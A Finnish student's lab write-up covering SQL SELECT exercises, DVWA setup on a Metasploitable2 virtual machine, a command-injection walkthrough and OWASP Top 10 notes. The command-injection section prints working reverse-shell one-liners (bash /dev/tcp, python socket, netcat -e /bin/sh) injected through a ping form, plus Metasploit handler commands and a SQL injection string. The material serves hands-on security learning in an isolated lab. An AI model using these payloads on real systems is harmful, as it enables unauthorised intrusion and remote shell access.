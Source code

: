 # A
## 0 SELECT basics
Tehtävät olivat suhteellisen suoraviivaisia joten en niihin sen tarkemmin paneudu. Vaikka ovatkin kyllä hyvää kertausta
![image](https://user-images.githubusercontent.com/71498717/201321779-d361bcb7-1681-4225-9534-0db67eb2de6c.png)  
![image](https://user-images.githubusercontent.com/71498717/201321977-bbc77216-16c7-498e-9145-f0ef26cd9b0c.png)  
![image](https://user-images.githubusercontent.com/71498717/201322083-199b921c-741c-42bc-a41d-fa422452c0c1.png)  

## 2 SELECT from World kohdat 1-5
Valittiin taulusta tietyt kohdat mitkä haluttiin näyttää eli ei kaikkia  
![image](https://user-images.githubusercontent.com/71498717/201322619-5466360e-92b6-46e0-bb8c-a50d3476f7e7.png)  
Seuraavassa filteröitiin koon perusteella näkymään ne maat joissa on yli 200 miljoonaa asukasta  
![image](https://user-images.githubusercontent.com/71498717/201323066-7059d820-2575-4d95-9fc3-4c59dea28960.png)  
Seuraavassa piti jakaa gdp väkiluvulla ja palauttaa se tieto  
![image](https://user-images.githubusercontent.com/71498717/201323801-89ff2fbe-fbff-4c10-aa67-fc6b35aaa662.png)  
Seuraavassa jaettiin väkiluku miljoonalla, jotta saatiin väkiluku näkymään miljoonissa  
![image](https://user-images.githubusercontent.com/71498717/201324459-b9ffb40b-17f0-483a-b980-74310dfd1180.png)  
Viimeisessä valittiin tietyt maat nimen perusteella  
![image](https://user-images.githubusercontent.com/71498717/201325663-5fc87e67-d7f6-4ae7-a002-2f276187e803.png)  



# B Tee paikallinen tunnus DVWA Damn Vulnerable Web App -ohjelmaan
Ensin piti etisä metasploitable2 weppipalvelin joka löytyi, kun navigoi selaimella suotaan metasploitablen IP-osoitteeseen joka minulta löytyy ```192.168.252.3```  
![image](https://user-images.githubusercontent.com/71498717/201331029-f58f14e4-f967-4758-b035-d50dd1e3167a.png)  

Kirjaudutaan sisään annetuilla tunnuksilla  
![image](https://user-images.githubusercontent.com/71498717/201332391-228925e3-7aaf-450f-bde1-b49cec77c7a3.png)  

Ja käydään vaihtamassa DVWA Security low tasolle, jotta tehtävät olisi helpompia  

![image](https://user-images.githubusercontent.com/71498717/201332554-2ee707a5-c639-4e0b-900b-34ae334c8b5c.png)  


# C Execute! Ratkaise DVWA "Command Excution".
Aloitetaan kokeilemalla mitä tapahtuu jos käyttää sivua sen käyttötarkoitukseen eli pingaamiseen  
![image](https://user-images.githubusercontent.com/71498717/201343064-91dc8007-db61-42dc-a4f5-976780c113a3.png)  
Huomattiin, että sivu serveri ajaa ```ping 192.168.252.4```komennon ja palauttaa tulokset. Tästä voidaan päätellä, että komennot tapahtuu sivua pyörittävällä koneella. Mikäli komentoja putkitetaan ```;``` merkin avulla voidaan koneessa suorittaa komentoja. Komennolla ```192.168.252.4; ls``` listautuu koneen sen kansion tiedostot  
![image](https://user-images.githubusercontent.com/71498717/201347009-1e1d33b4-4871-4d6a-b386-a1c86dbb7ebd.png)  
Kokeillaan saadaanko tätä kautta avattua reverse shell omaan koneeseen. Avataan metasploit framework ja käytetään multi/handler moduulia ```use exploit/multi/handler ``` asetetaan payloadiksi linux/x64/meterpreter_reverse_tcp. ```set payload linux/x64/meterpreter_reverse_tcp``` ```options```´siitä aukeaa tarvittavat tiedot, jotta payload saadaan käytettyä oikein  
![image](https://user-images.githubusercontent.com/71498717/201350697-71d44fea-e5a9-41f9-a5cc-d1859a2edf1e.png)  
Pitää asettaa oman koneen ip kohtaan LHOST  ```set lhost 192.168.252.4``` ja portti olikin siellä valmiina niin ei tarvitse muuta kuin ```exploit```. Nähtävästi mentiin mutkat suoriksi ja itse exploit jäi asettamatta. Eli  ```use exploit/multi/handler ``` ```show payloads``` ```set payload 196```  
![image](https://user-images.githubusercontent.com/71498717/201351916-4a241a68-18c8-483e-a231-5462ad6b1dc7.png)  
```set lhost 192.168.252.4``` ja sitten muistetaan vielä laittaa palomuuri alas erillisessä shell ikkunassa```sudo ufw disable``` ja sen jälkeen exploit.  
![image](https://user-images.githubusercontent.com/71498717/201353594-df02b1c3-2ba8-4b38-a201-736b74f03987.png)  

Jotta reverse shell voidaan avata pitää dvwa sivulta lähettää komento shellin avaamiseksi. Sivulla https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet löytyy bashin komento joten kokeillaan sitä ensiksi. ```192.168.252.4; bash -i >& /dev/tcp/192.168.252.4/4444 0>&1``` syötetään tekstikenttään ja painetaan submit. Pari kertaa submittia painettuna täytyy tulla siihen tulokseen, että ei tällä komennolla ainakaan toimi. Joten kokeillaan toista. Kokeillaan pythonia ```192.168.252.4; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.252.4",4444))``` No ei sekään toiminut toivotulla tavalla. Sitten voisi kokeilla ihan perinteistä netcattia. ```192.168.252.4; nc -e /bin/sh 192.168.252.4 4444```. Sieltä saatiin jotain eloa, mutta ei saatu avattua reverse shelliä. Joten täytyy kokeilla jotain muuta.  
![image](https://user-images.githubusercontent.com/71498717/201360270-ccc591e2-fe0e-47fb-b90d-245ede2c99bb.png)  
Kokeillaan saadaanko eri payloadilla parempia onnistumisia. Käytetään ```set payload cmd/unix/reverse_netcat``` ja asetukset pysyy samana joten ```exploit```. dvwa sivulla käyetään ```192.168.252.4; nc -e /bin/sh 192.168.252.4 4444``` ja saatiin shelli auki  
![image](https://user-images.githubusercontent.com/71498717/201362357-6e2660d4-d1b1-4edc-88f0-e81c05d40a30.png)  
![image](https://user-images.githubusercontent.com/71498717/201362442-dca05cf9-52d9-4337-9762-92b1669bd233.png)  

Seuraavaksi yritetään päivittää yhteys meterpreter yhteyteen. Painetaan ```ctrl + z``` ja ```sessions -u 1``` ja saatin päivitettyä yhteys parempaan. ```Sessions 2``` komennolla avataan oikea sessio.

![image](https://user-images.githubusercontent.com/71498717/201365171-55dc484a-f430-417f-bc8f-0a053e7a1cb8.png)  

![image](https://user-images.githubusercontent.com/71498717/201366840-12b74fdf-de94-43be-a77f-49e0e1d6c3ab.png)  

Ja näin pääsimme koneeseen sisään.






 

# D

# X
## OWASP 10 2017
### A1 Injection
Haavoittuvuuksia löytyy yleensä SQL,LDAP,XPath,NoSQL ja XML ja muutamasta muusta.
Injektiot tehdään syöttämällä modifioitu parametri, minkä johdosta hyökkääjälle palautuu ylimääräistä dataa, tai hyökkääjä voi poistaa tauluja tai muokata niitä.
Esim. SQL tapauksessa hyökkääjä tulee SQL kyselyn ulkopuolelle käyttämällä ```'``` ja tekemällä toisen kyselyn perään tai käyttämällä ```' OR '1'=1´```.

### A2 Broken Authentication
Käytetään brute force tekniikkaa syöttämällä listoja tunnetuista salasanoista, jotta päästäisiin sisälle
Sovelluksen istuntoa ei keskeytetä tietyn ajan jälkeen ja sitä käytetään hyväksi, esim. julkisella koneella.
### A3 Sensitive Data Exposure
Salaista dataa ei ole salattu vaan se välitetään selkokielisenä. Hyökkääjä joka toimii väliäkätenä voi ottaa kaiken tiedon ylös.
Tietokanta käyttää automaattista salauksen purkua jolloin SQL injectiolla saa salatun datan selkokielisenä.
### A7 Cross Site Scripting
Hyökkääjä kaappaa käyttäjän cookien lähettämällä sen omalle sivulleen. Tämä on mahdollista, jos käyttäjän selaimessa on scripti, jonka voi saada esim painamalla, jotain linkkiä.
##  Chapter 21: Cross Site Scripting
- Jos uhrin selaimessa on xss haavoittuvuus ajetaan scripti selaimella.
- mikäli url sisältää muuttujien nimiä scriptejä pitäisi pystyä ajamaan.
- kommenttiosioon voi mahdollisesti tallentaa scriptejä, jotka ajetaan kaikilla sivulla vierailevilla.
- kommenttiosiossa voi olla myös scriptejä, jotka ajaa koodeja toiselta sivulta.
- selaimessa voi estää javascriptien ajon


# Y
